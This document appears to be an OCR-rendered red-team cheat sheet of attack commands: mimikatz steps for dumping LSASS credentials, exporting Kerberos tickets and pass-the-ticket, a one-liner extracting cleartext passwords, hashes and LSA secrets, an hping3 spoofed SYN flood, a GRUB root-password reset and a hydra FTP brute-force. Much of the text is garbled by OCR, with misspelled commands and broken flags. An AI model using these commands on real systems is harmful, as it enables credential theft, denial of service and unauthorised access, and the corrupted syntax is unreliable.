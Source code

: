 ### Mimikatz command

```text
1. Upload mimikatz.exe and sekurlsa.dll to target
2. execute mirnikatz
3. mimikatz# privilege: :debug
4. mimikatz# injeet::proeess lsass.exe securlsa.dll
5. mimikatz# @getLogonPasswords
6. securlsa::minidump /users/redteam/Desktop/lsass.DMP
7. securlsa::LogonPasswords
```

Or

```text
mimikatz# sekurlsa::tickets /export
mimikatz# kerberos::ptt <TICKET PATH>
```
Or

```text
#cleartext password and hash
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "token::elevate" "lsadump::secrets" "exit"
```

### Hping command3

```text
hping3 targetiP --flood --frag --spoof ip --destport # --syn
```

### Arping command

```text
./arping -I eth# -a # arps
```

### Wine command

```text
ed /root/.wine/drive e/HinGW/bin
wine gee -o file.exe /tmp/ eode.e
wine file.exe
```

### Grub software

```text
GRUB Henu: Add 'single' end of kernel line. Reboot. Change root password. reboot
```

### Hydra command

```text
hydra -1 ftp -P words -v targetiP ftp
```
